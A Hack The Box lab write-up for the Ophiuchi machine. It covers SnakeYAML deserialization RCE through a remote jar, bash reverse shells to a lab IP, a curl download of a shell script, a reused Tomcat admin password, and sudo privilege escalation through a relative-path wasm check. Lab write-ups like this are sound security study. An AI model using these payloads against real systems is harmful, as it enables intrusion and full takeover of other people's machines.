


Hackthebox Ophiuchi
I rooted Ophiuchi which was a medium Linux machine. It implicates a flaw with YAML which allow to RCE. Apache tomcat credentials free, and a sudo capability to run a go file.
Foothold
classic nmap :
➜ Ophiuchi nmap -A -p- -T4 10.10.10.227
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
8080/tcp open http Apache Tomcat 9.0.38
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
So we are going to see the HTTP port.

So we see a YAML Parser, after few search on the web, we see that it is possible to get RCE with this functionnality. (https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)
First, to confirm this, we could try this payload, and see if we can get a connection back :
!!javax.script.ScriptEngineManager [
!!java.net.URLClassLoader [[
!!java.net.URL ["http://10.10.14.84:8000/"]
]]
]
$python3 -m http.server
10.10.10.227 - - [04/Apr/2021 16:41:49] code 404, message File not found
10.10.10.227 - - [04/Apr/2021 16:41:49] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
Yes, we get a ping back, so we are on the right way.
Now, we are gonna use this GitHub to get RCE (https://github.com/artsploit/yaml-payload).

We need to alter Runtime().exec(" … ");
Compile with :
$javac src/artsploit/AwesomeScriptEngineFactory.java
$jar -cvf yaml-payload.jar -C src/ .
!!javax.script.ScriptEngineManager [
!!java.net.URLClassLoader [[
!!java.net.URL ["http://10.10.14.84:8000/yaml-payload.jar"]
]]
]
We listen with python http server and it works, I tried to ping another http server and I get a connection. So now, reverse shell part, which was annoying. After many tried, the solution, was to upload a script .sh on /tmp , put a reverse shell bash command in it :
bash -i >& /dev/tcp/10.10.14.84/8888 0>&1
And execute the script whith bash /tmp/rev.sh for example like this :
public AwesomeScriptEngineFactory() {
try {
//Runtime.getRuntime().exec("curl http://10.10.14.193:8887/rev.sh -o /tmp/rev.sh");
Runtime.getRuntime().exec("bash /tmp/rev.sh");
} catch (IOException e) {
e.printStackTrace();
}
}
So yes :
$nc -lvnp 8888
Connection from 10.10.10.227:46760
bash: cannot set terminal process group (794): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ophiuchi:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
User
So classic move -> run linPeas.sh.
[+] Searching Tomcat users file
tomcat-users.xml file found: /usr/src/linux-headers-5.4.0-51/scripts/kconfig/tests/no_write_if_dep_unmet/config\n/opt/tomcat/conf/tomcat-users.xml
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
<user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
<user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
<user username="role1" password="<must-be-changed>" roles="role1"/>
It found tomcat-users.xml file, which contain admin password. We try to log in with ssh :
$ssh admin@10.10.10.227
admin@ophiuchi:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
PrivEsc
Now, root part, which was extremely cool. Classic sudo -l :
admin@ophiuchi:/tmp$ sudo -l
Matching Defaults entries for admin on ophiuchi:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User admin may run the following commands on ophiuchi:
(ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
admin@ophiuchi:/tmp$ ls /opt/wasm-functions/
backup deploy.sh index index.go main.wasm
admin@ophiuchi:/tmp$ cat /opt/wasm-functions/index.go
package main
import (
"fmt"
wasm "github.com/wasmerio/wasmer-go/wasmer"
"os/exec"
"log"
)
func main() {
bytes, _ := wasm.ReadBytes("main.wasm")
instance, _ := wasm.NewInstance(bytes)
defer instance.Close()
init := instance.Exports["info"]
result,_ := init()
f := result.String()
if (f != "1") {
fmt.Println("Not ready to deploy")
} else {
fmt.Println("Ready to deploy")
out, err := exec.Command("/bin/sh", "deploy.sh").Output()
if err != nil {
log.Fatal(err)
}
fmt.Println(string(out))
}
}
So, we could run index.go with sudo. This file is going to read main.wasm file, and if the return of main.wasm is different than 1, it says “Not ready to deploy”, and if not, “Ready to deploy” and execute a script named deploy.sh. The flaw here, is the path of main.wasm and deploy.sh are not specified, so we could modify these 2 files, in another path, and run the index.go. It’s gonna look at the files which are on the path when we run the script. When we run the script in the /opt/wasm-functions/ , it says “Not ready to deploy”, so the script, main.wasm, isn’t returning 1, but we need it, to execute deploy.sh So now, editing part of the main.wasm file, to do this, we are going to use this github repository (https://github.com/WebAssembly/wabt).
$bin/wasm-decompile ../main.wasm -o ../main.dcmp
$cat ../main.dcmp
export memory memory(initial: 16, max: 0);
global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;
table T_a:funcref(min: 1, max: 1);
export function info():int {
return 0
}
➜ wabt git:(main) bin/wasm-interp ../main.wasm --run-all-exports
info() => i32:0
We see that the script return 0. And our goal is to return 1. We converter the .wasm into .wat to modify it :
$bin/wasm2wat ../main.wasm -o ../test.wat
$cat test.wat
(module
(type (;0;) (func (result i32)))
(func $info (type 0) (result i32)
i32.const 0)
(table (;0;) 1 1 funcref)
(memory (;0;) 16)
(global (;0;) (mut i32) (i32.const 1048576))
(global (;1;) i32 (i32.const 1048576))
(global (;2;) i32 (i32.const 1048576))
(export "memory" (memory 0))
(export "info" (func $info))
(export "__data_end" (global 1))
(export "__heap_base" (global 2)))
We see that i32.const is set at 0, we change the value to 1. Now we convert this .wat to .wasm and decompile it :
$bin/wat2wasm ../test.wat -o ../test.main
$bin/wasm-interp ../test.main --run-all-exports
info() => i32:1
➜ wabt git:(main) bin/wasm-decompile ../test.main
export memory memory(initial: 16, max: 0);
global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;
table T_a:funcref(min: 1, max: 1);
export function info():int {
return 1
}
Here, we checked that the script return 1. Now we are going to upload it to the box. Also, we set up a deploy.sh script, to execute the command with sudo rights.
admin@ophiuchi:/tmp/test$ ls
deploy.sh main.wasm
admin@ophiuchi:/tmp/test$ cat deploy.sh
#!/bin/bash
# ToDo
# Create script to automatic deploy our new web at tomcat port 8080
id
admin@ophiuchi:/tmp/test$ chmod 777 deploy.sh
admin@ophiuchi:/tmp/test$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
uid=0(root) gid=0(root) groups=0(root)
admin@ophiuchi:/tmp/test$ cat rev.sh
#!/bin/bash
echo "pwn :D"
bash -i >& /dev/tcp/10.10.14.84/8888 0>&1
admin@ophiuchi:/tmp/test$ cat deploy.sh
#!/bin/bash
# ToDo
# Create script to automatic deploy our new web at tomcat port 8080
bash /tmp/test/rev.sh
So, we just created a simple reverse shell command in another bash script. Setup netcat listener, and execute the index.go script.
admin@ophiuchi:/tmp/test$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
-----------------
➜ Ophiuchi nc -lvnp 8888
Connection from 10.10.10.227:46738
root@ophiuchi:/tmp/test# id
id
uid=0(root) gid=0(root) groups=0(root)
So yesss, we are root, hope you enjoyed this write-up, in my side, I really like this box, which implicate new knowledge, especially for the root part :).